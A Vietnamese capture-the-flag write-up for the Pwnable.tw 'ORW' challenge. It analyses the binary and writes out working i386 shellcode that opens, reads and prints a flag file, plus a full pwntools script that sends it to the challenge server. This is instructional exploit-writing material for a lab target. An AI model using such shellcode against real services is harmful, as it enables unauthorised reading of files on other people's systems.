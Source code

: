### Pwnable.tw - ORW

# Preview 


![image](https://user-images.githubusercontent.com/90976397/176607610-e7504449-83a8-4102-a551-27399b28e04f.png)

Đây là câu thứ 2 trên Pwnable.tw và cũng là câu thứ 2 mà mình viết trong series này. 

Đây là một câu khá cơ bản trong mảng pwnable, chỉ đòi hỏi về kỹ năng viết assembly code.

Ở bài trước mình đã nói, assembly code rất là quan trọng trong mảng này, chừng nào còn đụng đến binary là còn đụng đến assembly code :D, vì thế nên hãy học assembly code một cách nghiêm túc.

![image](https://user-images.githubusercontent.com/90976397/176624348-f5b82f50-f67c-4826-ac89-cabfa564642a.png)

Tải file về rồi kiểm tra xem loại file và những cơ chế bảo mật được enable.

![image](https://user-images.githubusercontent.com/90976397/176624755-231c9ac4-9669-4340-b294-183c3231f7f9.png)

Một file ELF 32-bit LSB executable và không bị stripped

![image](https://user-images.githubusercontent.com/90976397/176625135-678c3bb1-7f60-4ef4-97ad-6bd6039db2a5.png)

Dường như chỉ có mỗi canary là được bật, ở bài trước mình đã nói sơ sơ về cơ chế Non-Executable, ở bài này NX disable thì hiển nhiên việc chúng ta sẽ làm đó là cần phải viết shellcode rồi :) viết sao thì ở dưới mình sẽ nói rõ.  

![EXfRo89XYAA-J5v](https://user-images.githubusercontent.com/90976397/176627953-76c18257-2360-4301-89d5-a404eab127a7.jpg)

# Analyze 

Mở IDA/Ghidra để xem thử bên trong nó có gì 
Btw, một lần nữa, mình khuyến khích các bạn nên đọc assembly code thay vì đọc pseudocode nhé, giúp ích nhiều lắm đấy 

![image](https://user-images.githubusercontent.com/90976397/176628953-4e10f5d3-b12d-4767-9a92-5f5c1751eb0e.png)

Dường như trong hàm main không có gì đặc biệt, chỉ là in ra dòng chữ "Give me your shell code: " rồi cho chúng ta nhập input vào.

Ở bài này thực sự không có gì nhiều để nói, nhưng mình sẽ cố gắng giải thích chi tiết để cho bạn hiểu rõ hơn về dạng bài viết assembly code nhé :).


# Exploit 

![image](https://user-images.githubusercontent.com/90976397/176630907-17df1123-de8d-4280-bce0-5b2a5634bb85.png)

Như description của bài này thì chúng ta có thể thấy nó đã chỉ cách làm bài này cho mình luôn rồi 

![image](https://user-images.githubusercontent.com/90976397/176631232-51a481c2-1239-43cf-916e-8933a5e29381.png)

Chỉ cần mở, đọc, in ra flag :) easy phải không ?

![75720175](https://user-images.githubusercontent.com/90976397/176632083-c218dd14-ac59-493c-9a7c-b8d03cb661e1.jpg)


Đầu tiên là push flag vào stack

Flag nằm ở ///home/orw/flag

Vì đây là cấu trúc 32-bit thế nên là phải đổi chuỗi "///home/orw/flag" sang hex và vì 32-bit nên chỉ push 4 byte một, ngoài ra đọc theo little-endian
"///home/orw/flag" đổi sang "galf/wro/emoh///"(vì đọc theo dạng byte little-endian) đổi sang mã hex là "67616c66 2f77726f 2f656d6f 682f2f2f"
```
shellcode = asm("push 0x0")
shellcode += asm("push 0x67616c66") #flag
shellcode += asm("push 0x2f77726f") #orw/
shellcode += asm("push 0x2f656d6f") #ome/
shellcode += asm("push 0x682f2f2f") #///h
```
Bây giờ cứ theo mô tả cả đề và từng bước đề đã nói mà làm thôi

Open
```
shellcode += asm("mov ebx, esp") #gán esp vào ebx, ebx- * file : esp
shellcode += asm("xor eax, eax") #khởi tạo eax
shellcode += asm("xor edx,edx") #edx mode = 0, read only
shellcode += asm("xor ecx, ecx") #ecx-flag: 0
shellcode += asm("mov eax, 0x05") #eax mode = 5, open
shellcode += asm("int 0x80") #syscall, syscall mình đã giải thích ở bài trước
```
Read
```
shellcode += asm("mov eax, 0x03") #eax mode = 3, read(3)
shellcode += asm("mov ebx,eax") #ebx-fd = eax, có nghĩa là handle->/home/orw/flag (3)
shellcode += asm("mov ecx,esp") #ecx-* buf: esp
shellcode += asm("mov edx, 0x40") #edx-size: 0x40
shellcode += asm("int 0x80") #syscall
```
Write

```
shellcode += asm("mov eax, 0x04") #eax mode = 4, write(4)
shellcode += asm("mov ebx, 0x01") #ebx-fd: stdout(1)
shellcode += asm("int 0x80") #syscall
```
Và cuối cùng chỉ cần execute cái shell này và chúng ta đã có được flag

![image](https://user-images.githubusercontent.com/90976397/176654117-d45db29d-e594-410e-a2e3-41e2332d700a.png)

full script: 
```
from pwn import * 

r = remote("chall.pwnable.tw",10001)
shellcode = asm("push 0x0")
shellcode += asm("push 0x67616c66") #flag
shellcode += asm("push 0x2f77726f") #orw/
shellcode += asm("push 0x2f656d6f") #ome/
shellcode += asm("push 0x682f2f2f") #///h

shellcode += asm("mov ebx, esp") #gán esp vào ebx, ebx- * file : esp
shellcode += asm("xor eax, eax") #khởi tạo eax
shellcode += asm("xor edx,edx") #edx mode = 0, read only
shellcode += asm("xor ecx, ecx") #ecx-flag: 0
shellcode += asm("mov eax, 0x05") #eax mode = 5, open
shellcode += asm("int 0x80") #syscall, syscall mình đã giải thích ở bài trước 

shellcode += asm("mov eax, 0x03") #eax mode = 3, read(3)
shellcode += asm("mov ebx,eax") #ebx-fd = eax, có nghĩa là handle->/home/orw/flag (3)
shellcode += asm("mov ecx,esp") #ecx-* buf: esp
shellcode += asm("mov edx, 0x40") #edx-size: 0x40
shellcode += asm("int 0x80") #syscall

shellcode += asm("mov eax, 0x04") #eax mode = 4, write(4)
shellcode += asm("mov ebx, 0x01") #ebx-fd: stdout(1)
shellcode += asm("int 0x80") #syscall
print(shellcode)
r.sendline((shellcode))

r.interactive()
```

Thực chất thư viện pwntools rất là mạnh, nó cung cấp cho chúng ta rất là nhiều công cụ để giải một câu pwn. Ở câu này chúng ta có thể sử dụng module pwntools như sau: 

```
shellcode = shellcraft.i386.pushstr('/home/orw/flag')
shellcode += shellcraft.i386.linux.syscall('SYS_open', 'esp')
shellcode += shellcraft.i386.linux.syscall('SYS_read', 'eax', 'esp', 0x50)
shellcode += shellcraft.i386.linux.syscall('SYS_write', 1, 'esp', 0x50)
```
Chỉ cần 4 dòng, ngắn hơn rất nhiều so với cái ở trên. Nhưng cái gì cũng có cái giá của nó, trước khi bạn sử dụng những công cụ có sẵn như này thì bạn phải thuần thục ngôn ngữ assembly đã, không nên dựa dẫm quá nhiều vào những cái có sẵn. 

Peace~





